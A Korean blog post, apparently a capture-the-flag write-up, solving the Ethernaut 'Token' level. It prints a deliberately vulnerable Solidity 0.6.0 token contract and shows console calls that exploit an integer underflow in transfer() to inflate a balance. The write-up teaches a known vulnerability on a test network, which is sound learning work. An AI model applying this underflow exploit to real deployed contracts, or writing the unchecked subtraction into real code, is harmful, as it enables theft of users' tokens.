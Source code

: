 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 5) Token  
date: '2022-01-07 20:26:00'
author: 한성원
tags: ethernaut Token vulnerability
categories: 취약점분석
---
```



# 👋 1. Token
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- additional token 가져오기(해킹해서 가져오기)

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    
    // address와 balance의 mapping
    mapping(address => uint) balances;
    // 토큰의 총 공급량
    uint public totalSupply;

    // constructor: 총 공급량을 parameter로 한다.
    constructor(uint _initialSupply) public {
        // deployer의 balance를 총 공급량과 같게한다.
        // totalSupply를 patameter의 총 공급량과 같이한다.
        balances[msg.sender] = totalSupply = _initialSupply;
    }
    // Token을 transfer하는 function이다.
    function transfer(address _to, uint _value) public returns (bool) {
        // 만약 msg.sender의 (balance - 보내고싶은 토큰의 양)이 0과 같거나 커야한다. 
        require(balances[msg.sender] - _value >= 0);
        // msg.sender의 잔고에서 보낼 토큰의 양을 뺀다.
        balances[msg.sender] -= _value;
        // 수신자의 잔고에 받을 토큰의 양을 더한다. 
        balances[_to] += _value;
        return true;
    }
    // 하나의 address의 balance를 확인 할 수 있는 view function
    function balanceOf(address _owner) public view returns (uint balance) {
        // return balance of an address
        return balances[_owner];
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 CoinFlip은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제에서 우리는 기본적으로 주어진 20 토큰 이외에 추가적인 토큰을 얻으면 승리한다.

가장 먼저 우리는 코드에 허점을 찾아야 한다. 하지만 지금까지와 문제와 다르게 그러나있는 허점이 없다. ~~이제야 해킹같네ㅎㅋㅎㅋㅎㅋ~~

우선 내가 공부했던 취약점들을 생각해봤다. 그러던 중 token contract의 solidity compiler version은 0.6.0를 확인했다.

Overflow & Underflow는 꾸준히 이슈가 되다가 0.8.0 version에서부터 알아서 처리될 수 있도록 바뀌었다. Overflow & Underflow에 관해서는 __[이 글](https://holyhansss.github.io/vulnerability/over_under_flow/over_under_flow/)__ 에서 찾아볼수 있다.

우리는 이제 이 문제에서 underflow를 활용해 contract에 attack할 수 있다는 것을 알 수 있다.

__바로 Token.transfer()에 가지고 있는 token보다 큰 수를 보내면 나의 token balance가 underflow를 일으키며 상상할 수도 없는 큰 숫자의 token을 가질 수 있게 된다. 이제 코드를 보도록 하자!__

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 나의 balance를 확인한다: 20개의 Token을 가지고 있을 것이다.
await contract.balanceOf(player)

// contract의 transfer()를 call한다.
// 주소는 metamask를 통해 새로운 주소를 하나 만들었다.
// 내가 가진 토큰의 수 보다 큰 수의 토큰을 보낸다.
await contract.transfer("0x690A732BA98fcfe72bDedE2085816BCF6498058d", 21)

// 다시 나의 balance를 확인해보면 엄청 큰 수의 토큰을 얻을 것을 확인 할 수 있다.
await contract.balanceOf(player)
```

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -
## 마무리
overflow와 underflow는 이미 공부했던 취약점이어서 쉽게 해결 할 수 있었다. 빠르게 6도 ㄱㄱ 해봅시다~~

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- overflow & underflow 취약점: https://holyhansss.github.io/vulnerability/over_under_flow/over_under_flow

```toc

```